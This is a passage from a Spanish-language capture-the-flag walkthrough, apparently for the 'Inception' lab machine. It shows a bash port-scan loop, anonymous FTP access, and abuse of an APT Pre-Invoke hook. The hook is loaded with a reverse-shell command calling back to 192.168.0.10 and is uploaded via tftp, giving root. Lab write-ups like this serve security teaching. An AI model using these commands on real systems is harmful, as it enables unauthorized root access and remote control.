 ```bash
for port in $(seq 1 10000); do
    timeout 1 bash -c "(echo "" > /dev/tcp/192.168.0.1/$port) 2>/dev/null" && echo "Port $port" &
done; wait
```
Nos reporta que los puertos 21 (ftp), 22 (ssh), y 53 (dns) están abiertos.

```console
root@Inception:/tmp# ftp 192.168.0.1 # Usuario anonymous contraseña anonymous
ftp> get crontab
```
```console
root@Inception:~# cat crontab
*/5 *	* * *	root	apt update 2>&1 >/var/log/apt/custom.log
30 23	* * *	root	apt upgrade -y 2>&1 >/dev/null
```
Esto significa que se está actualizando el sistema cada 5 minutos. Si pones un archivo especial en: */etc/apt/apt.conf.d/* se ejecutará antes de actualizar el sistema.
La manera que hay de explotar esto es escribiendo un archivo: *command*:

```APT::Update::Pre-Invoke {" whoami ";};``` En este caso:
```APT::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/192.168.0.10/443 0>&1'";};```

```console
root@Inception:~# tftp 192.168.0.1    # Ftp especial.
tftp> put command /etc/apt/apt.conf.d/command   # Dicho archivo se tiene que subir a esta ruta
```
```console
root@Inception:/home/cobb# sudo nc -nlvp 443
root@Inception:/tmp# whoami # root
root@Inception:/tmp# hostname -I
hostname -I
10.10.10.67 192.168.0.1 dead:beef::250:56ff:feb9:5325
```
Con esto ya estaríamos en la segunda máquina.

--------------------------------------------

Disclaimer: aprendi a resolver la maquina gracias al maestro @s4vitar.

--------------------------------------------

### EXTRA 1. ¿Que es un SQUID PROXY?

Es un proxy (un servidor intermediario entre el cliente-servidor). Suele operar en el puertp 3128:

* Está para mejorar peticiones ya que guarda en la cache (memoria) un registro de todas estas:  
> Cuando mucha gente haga las mismas peticiones, que en vez de responder una y otra vez saturando el servidor, se les manda la misma respuesta que se habia almacenado en dicha cache ) 
* Tambien puede filtrar peticiones que detecte como *maliciosas* securizando el servidor (aunque en esta maquina securizar... poco) 

--------------------------------------------

### EXTRA 2. Forward Shell Over TTY

